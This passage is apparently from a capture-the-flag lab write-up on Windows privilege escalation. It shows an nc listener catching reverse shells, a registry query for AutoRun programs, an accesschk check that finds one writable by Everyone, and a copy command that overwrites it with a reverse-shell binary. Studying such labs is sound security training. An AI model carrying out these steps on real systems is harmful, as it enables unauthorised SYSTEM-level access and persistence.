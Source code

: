 ```bash
joshua@kaligra:~/Documents/thm/windows10privesc$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.100.14] from (UNKNOWN) [10.10.174.134] 49862
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

## autoruns

Query the registry for AutoRun executables:

```bash
C:\Users\user>reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:

```bash
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:

```
C:\Users\user>copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
        1 file(s) copied.
```

Start a listener and reboot target machine

```bash
joshua@kaligra:~/Documents/thm/windows10privesc$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.100.14] from (UNKNOWN) [10.10.174.134] 49685
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
